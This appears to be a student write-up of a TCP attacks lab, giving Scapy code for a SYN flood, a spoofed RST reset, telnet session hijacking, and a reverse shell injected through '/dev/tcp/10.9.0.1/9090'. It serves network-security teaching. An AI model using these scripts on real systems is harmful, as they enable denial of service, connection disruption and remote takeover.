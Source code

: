 # TCP Attacks Lab

## Task 1.1: Launching the Attack Using Python

In the container the free port is the telnet port, that is 23. So the final program is the following.

```py
ip = IP(dst='10.9.0.5')
tcp = TCP(dport=23, flags='S')
pkt = ip/tcp
while True:
    pkt[IP].src = str(IPv4Address(getrandbits(32))) 
    pkt[TCP].sport = getrandbits(16) 
    pkt[TCP].seq = getrandbits(32) 
    send(pkt, verbose=0)
```

One instance of the program is enough with a small queue limit (80) and it reaches immediately 60 elements in the queue. We can run different instance of the program if we want to reach the limit faster or with the default maximum queue limit. After running *ip tcp_metrics flush* to remove the mitigation we can see that the telnet connection is unfeasible.

## Task 1.2: Launching the Attack Using C

The *C* program reaches very fast the maximum number of items in the container queue, when this value is set to the default state. Meanwhile with the python program I needed more than one instance of the program running to reach the saturation of the queue when it is in the default state.

In this situation, anyway, the telnet connection is infeasible or it takes several time to be accomplished.

## Task 1.3: Enable the SYN Cookie Countermeasure

In this case the queue fills up but we are able to establish a telnet connection without any problems.

## Task 2: TCP RST Attack on *telnet* Connection

The following code performs the task automatically, sniffing the first packet sent by the client to the server in a *telnet* connection (in my case 10.9.0.5 is the client and 10.9.0.6 is the server), gains the information and send back a spoofed reset packet that closes an opened telnet connection. The correct sequence and ack numbers are fundamental and setting the correct flag as well (“R” for the reset packet).

```py
pkt = sniff(iface="br-c4613239b044", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="R", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
p = ip/tcp
send(p, verbose=0, iface="br-c4613239b044")
```

## Task 3: TCP Session Hijacking

In this case the program is quite similar to the previous task. With the following code the *telnet* session between client and server will be hijacked and the command *touch random_file* will be executed in the server. It is also possible to notice that the session is hijacked for the fact that in the terminal it won’t be possible to write anything.

```py
pkt = sniff(iface="br-d5b6ec4e964d", count=1, lfilter=lambda x: x.haslayer(TCP) and x[IP].src == "10.9.0.5")
pkt = pkt[0]
ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
tcp = TCP(sport=pkt[TCP].sport, dport=pkt[IP].dport, flags="A", seq=pkt[TCP].seq+1, ack=pkt[TCP].ack+1)
data = "\r touch random_file \r"
p = ip/tcp/data
send(p, verbose=0, iface="br-d5b6ec4e964d")
```

After logging back into the container it is possibile to see that the file has actually been created.

![img1](img1.png)

## Task 4 (Optional): Creating Reverse Shell using TCP Session Hijacking

Open a nc connection in listening mode on the attacker machine, and substitute the data variable in the previous script with 
```py
data = '/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n'.encode()
```
